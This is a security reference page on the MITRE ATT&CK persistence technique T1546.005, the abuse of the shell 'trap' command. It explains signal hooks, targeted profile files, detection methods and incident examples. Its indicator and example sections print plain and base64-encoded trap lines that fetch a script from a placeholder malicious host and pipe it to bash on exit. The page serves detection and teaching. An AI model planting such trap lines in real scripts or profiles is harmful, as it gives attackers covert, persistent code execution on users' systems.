 ```yaml
---
description: Trap [T1546.005]
icon: lock
---
```


# Trap

## Information

* Name: Trap
* ID: T1546.005
* Tactics: [TA0004](../../ta0004/), [TA0003](../)
* Technique: [T1546](./)

## Introduction

Trap ([T1546.005](https://attack.mitre.org/techniques/T1546/005/)) is a sub-technique under the MITRE ATT\&CK framework categorized within persistence mechanisms. Adversaries leverage the Unix/Linux `trap` command to execute malicious scripts or commands when shell scripts receive signals or exit events. This allows attackers to maintain persistence on compromised systems by embedding malicious commands within legitimate shell scripts, ensuring repeated execution without direct user intervention.

## Deep Dive Into Technique

The Unix/Linux `trap` command is a built-in shell command used to define and execute actions upon receiving specific signals or upon script termination. Attackers exploit this feature to embed malicious commands or scripts within legitimate shell scripts, resulting in persistent execution each time the script terminates or receives a predetermined signal.

Technical details include:

* **Signal Handling:**\
  The `trap` command can intercept various signals, such as:
  * `EXIT` (executed when a script exits)
  * `INT` (interrupt from keyboard, typically Ctrl+C)
  * `TERM` (termination signal)
  * `HUP` (hangup signal, typically terminal closure or logout)
*   **Persistence Mechanism:**\
    Attackers insert malicious commands into legitimate scripts or configuration files using the syntax:

    ```bash
    trap '<malicious_command_or_script>' EXIT
    ```

    This ensures that whenever the script exits, intentionally or unintentionally, the malicious command executes.
* **Obfuscation Techniques:**\
  Adversaries often obfuscate trap commands to evade detection by:
  * Encoding commands with base64 or hex encoding.
  * Embedding commands within complex script logic or conditional statements.
  * Leveraging environment variables to hide malicious payloads.
* **Commonly Targeted Files and Scripts:**\
  Attackers frequently target scripts executed regularly or at system startup, such as:
  * `/etc/profile`
  * `/etc/bashrc`
  * User-specific scripts (`~/.bashrc`, `~/.bash_profile`)
  * System-wide scheduled scripts or cron jobs

## When this Technique is Usually Used

This technique predominantly appears in the persistence phase of the cyber kill chain, ensuring that attackers maintain access and control over compromised systems. Common scenarios include:

* **Long-term Persistence:**\
  After initial compromise, attackers embed trap commands into scripts executed regularly or at system startup, ensuring continuous access.
* **Privilege Escalation and Lateral Movement:**\
  Attackers may insert malicious trap commands into scripts executed by higher-privileged users or automated processes, facilitating privilege escalation or lateral movement across systems.
* **Stealthy Backdoor Implementation:**\
  Attackers embed trap commands to quietly execute backdoor scripts or commands upon user logout or script termination, minimizing suspicion and detection risks.
* **Post-Exploitation Stage:**\
  After initial access and reconnaissance, attackers leverage trap commands to establish persistent footholds, allowing repeated access for further exploitation, data exfiltration, or lateral movement.

## How this Technique is Usually Detected

Detection of malicious trap commands involves multiple approaches, including host-based monitoring, behavioral analysis, and signature-based detection. Common detection methods include:

* **File Integrity Monitoring (FIM):**\
  Tools like OSSEC, Tripwire, or Samhain detect unauthorized modifications to critical system scripts and configuration files.
* **Endpoint Detection and Response (EDR) Solutions:**\
  Advanced EDR tools (CrowdStrike Falcon, SentinelOne, Carbon Black) identify suspicious script behavior, unusual command executions, and anomalous trap commands.
* **Audit Logs and Command History Analysis:**\
  Regularly auditing user command histories (`~/.bash_history`) and system logs (`/var/log/auth.log`, `/var/log/syslog`) can reveal unauthorized edits and execution of trap commands.
* **Behavioral Analysis and Anomaly Detection:**\
  Monitoring tools or SIEM solutions (Splunk, ELK stack) detect anomalous script behaviors, unexpected executions, and unusual signal handling patterns.
* **Specific IoCs (Indicators of Compromise):**
  *   Unusual trap commands embedded in scripts:

      ```bash
      trap 'curl http://malicious.example.com/script.sh | bash' EXIT
      ```
  *   Base64-encoded commands within trap statements:

      ```bash
      trap 'echo d2dldCBodHRwOi8vbWFsaWNpb3VzLmV4YW1wbGUuY29tL3NjcmlwdC5zaCAtTy0gfCBiYXNoCg== | base64 -d | bash' EXIT
      ```
  * Unusual network connections initiated by scripts upon termination.

## Why it is Important to Detect This Technique

Detecting malicious use of the trap command is critical due to several significant impacts:

* **Persistent Unauthorized Access:**\
  Attackers maintain long-term footholds, enabling repeated unauthorized access, data exfiltration, and further exploitation.
* **Privilege Escalation Potential:**\
  Malicious trap commands embedded in scripts executed by privileged accounts can facilitate unauthorized privilege escalation.
* **Stealth and Evasion:**\
  Due to the subtlety and built-in nature of the trap command, attackers can evade traditional detection mechanisms, prolonging dwell time and increasing damage potential.
* **Increased Risk of Data Loss and Breaches:**\
  Persistent backdoors via trap commands facilitate continuous data exfiltration, intellectual property theft, and sensitive information leakage.
* **Operational Disruption and System Stability:**\
  Malicious commands executed via trap mechanisms can destabilize systems, disrupt operations, or cause unintended outages.

Early detection ensures timely response, reduces attacker dwell time, and minimizes potential damage to systems, data, and organizational reputation.

## Examples

Real-world examples and scenarios involving the malicious use of the trap command include:

* **Linux Malware Campaigns (HiddenWasp Malware):**
  * Attackers inserted trap commands into legitimate scripts to execute malicious payloads upon script termination.
  * Malicious scripts downloaded additional payloads and established persistent backdoor connections.
  * Impact: Persistent unauthorized access, data exfiltration, and lateral movement across compromised environments.
* **Cryptomining Attacks via Trap Commands:**
  * Attackers embedded cryptomining scripts into user shell profiles (`~/.bashrc`) using trap commands to ensure repeated execution upon session termination.
  * Malicious scripts executed cryptomining binaries, causing high CPU utilization and performance degradation.
  * Impact: Resource exhaustion, reduced system performance, increased operational costs.
* **Advanced Persistent Threat (APT) Campaigns:**
  * Nation-state actors leveraged trap commands within system-wide profile scripts (`/etc/profile`) to execute stealthy backdoor payloads upon user logout or system reboot.
  * Attackers maintained long-term persistence, enabling espionage, sensitive data exfiltration, and lateral movement.
  * Impact: Compromise of sensitive data, intellectual property theft, and prolonged attacker dwell time.
* **Obfuscated Trap Command in Real-world Incident:**
  *   Attackers inserted base64-encoded commands within trap statements to evade detection:

      ```bash
      trap 'echo Y3VybCBodHRwOi8vbWFsaWNpb3VzLmNvbS9iYWNrZG9vci5zaCB8IGJhc2gK | base64 -d | bash' EXIT
      ```
  * Malicious scripts downloaded and executed additional backdoors, allowing attackers persistent access and control.
  * Impact: Persistent backdoor establishment, unauthorized access, and operational disruption.

These examples underline the importance of vigilance, proactive monitoring, and effective detection mechanisms to mitigate risks associated with malicious trap command usage.
